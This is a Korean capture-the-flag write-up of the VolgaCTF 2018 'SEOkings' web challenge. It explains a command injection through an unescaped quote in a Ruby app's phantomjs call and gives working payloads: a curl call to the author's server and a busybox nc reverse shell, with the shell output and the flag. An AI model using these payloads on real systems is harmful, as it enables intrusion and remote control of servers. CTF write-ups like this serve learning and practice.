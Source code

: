 # [Web] VolgaCTF - SEOkings

## Description

We are SEOkings and we so innovative

[http://seo-kings.quals.2018.volgactf.ru:8080](http://seo-kings.quals.2018.volgactf.ru:8080/)

##### Hints

1. You missed some parameters



## Analysis

페이지에 접속하면 단 하나의 파라미터 밖에 존재하지 않는다.

내 서버를 입력하고 Try 해보았으나 아무 반응이 없었다.

site의 값을 Arrat로 넣어주면 에러가 발생한다.

```ruby
# /usr/lib/ruby/2.3.0/uri/rfc2396_parser.rb in escape 
    # replacing them with codes.
    #
    def escape(str, unsafe = @regexp[:UNSAFE])
      unless unsafe.kind_of?(Regexp)
        # perhaps unsafe is String object
        unsafe = Regexp.new("[#{Regexp.quote(unsafe)}]", false)
      end
      str.gsub(unsafe) do
        us = $&
        tmp = ''
        us.each_byte do |uc|
          tmp << sprintf('%%%02X', uc)
        end
        tmp
      end.force_encoding(Encoding::US_ASCII)

# /usr/lib/ruby/2.3.0/uri/common.rb in escape 
    #   # => "http://example.com/?a=\t\r"
    #
    #   p URI.escape("@?@!", "!?")
    #   # => "@%3F@%21"
    #
    def escape(*arg)
      warn "#{caller(1)[0]}: warning: URI.escape is obsolete" if $VERBOSE
      DEFAULT_PARSER.escape(*arg)
    end
    alias encode escape
    #
    # == Synopsis
    #
    #   URI.unescape(str)
    #

# /opt/seo-kings/app/controllers/main_controller.rb in runAdmin 
   get '/*' do
    erb :page_error
  end
  
  def runAdmin(site)
  pid = Process.spawn("phantomjs --web-security=no bot.js '" +  URI.escape(site)  + "'")
  begin
      Timeout.timeout(1) do
      Process.wait(pid)
    end
  rescue Timeout::Error
      Process.kill('TERM', pid)
  end

# /opt/seo-kings/app/controllers/main_controller.rb in block in <class:MainController>
    erb :main
  end

   post '/' do
    site = params[:site]
    unless site.nil?
      runAdmin(site)
    end
    erb :main
  end

  get '/validator' do
    unless local?
```

여기서 알 수 있는 것은 runAdmin함수에서 Process를 실행시킨다는 것이다.

>  pid = Process.spawn("phantomjs --web-security=no bot.js '" +  URI.escape(site)  + "'")

다행히도 URI.escape 함수는 Quote(')를 필터링 하지 않는다.

이를 이용해 Command Injection을 하였다.

## Exploit

Command Injection을 해야하지만 URI.escape에 의해 공백을 사용할 수가 없다.

이는 \$IFS와 \$()를 통해 우회하자.

> \$ echo\$IFS1
>
> \$ echo\$IFS\$()1
> 1

**Query :** ';curl\$IFS\$()[MY SERVER];'

```
$ python -m SimpleHTTPServer 10101
Serving HTTP on 0.0.0.0 port 10101 ...
188.246.233.46 - - [26/Mar/2018 11:50:17] "GET / HTTP/1.1" 200 -
```

이제 nc를 통해 Shell을 얻고 flag를 찾아보자.

**Query :** ';busybox\$IFS\$()nc\$IFS\$()[MY SERVER]\$IFS\$()10101\$IFS\$()-esh;'

```
ls -al
total 24
drwxr-xr-x    6 root     root          4096 Mar 24 01:32 .
drwxr-xr-x    3 root     root          4096 Mar 24 20:09 ..
drwxr-xr-x    2 root     root          4096 Mar 25 05:45 constants
drwxr-xr-x    2 root     root          4096 Mar 24 01:32 controllers
drwxr-xr-x    3 root     root          4096 Mar 24 01:32 public
drwxr-xr-x    2 root     root          4096 Mar 24 01:32 views
cd constants
ls -al
total 12
drwxr-xr-x    2 root     root          4096 Mar 25 05:45 .
drwxr-xr-x    6 root     root          4096 Mar 24 01:32 ..
-rw-r--r--    1 root     root            65 Mar 24 01:32 file_wtih_flag.rb
cat *
class Flagclass
	FLAG = "VolgaCTF{hope_it_was_like_madness}"
end
```



**VolgaCTF{hope_it_was_like_madness}**
